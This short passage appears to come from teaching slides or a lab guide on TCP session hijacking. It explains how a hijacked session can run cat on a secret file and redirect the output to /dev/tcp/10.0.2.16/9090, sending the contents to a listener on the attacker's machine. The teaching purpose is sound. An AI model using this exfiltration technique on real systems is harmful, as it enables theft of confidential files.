

# Session Hijacking: Steal a Secret
TCP Attacks
“cat” command prints out the content of the secret file, but instead of printing it out locally,  it redirects the output to a file called /dev/tcp/10.0.2.16/9090 (virtual file in /dev folder  which contains device files). This invokes a pseudo device which creates a connection  with the TCP server listening on port 9090 of 10.0.2.16 and sends data via the  connection.
The listening server on the attacker machine will get the content of the file.